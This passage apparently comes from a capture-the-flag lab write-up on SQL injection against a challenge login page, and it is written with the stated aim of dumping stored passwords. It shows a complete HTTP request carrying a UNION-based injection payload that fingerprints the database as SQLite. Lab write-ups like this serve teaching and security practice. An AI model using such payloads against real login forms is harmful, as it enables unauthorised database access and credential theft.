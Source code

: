 ![Pasted image 20210804162940](Pasted%20image%2020210804162940.png)

This confirms that we are able to both successfully inject into the target application and render injected query output.

Since the goal is to dump the passwords in the database, the next step is to determine the backend database type.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,sqlite_version()--&password=woo	
```

Indicates SQLite version 3.22.0.

![Pasted image 20210804163310](Pasted%20image%2020210804163310.png)
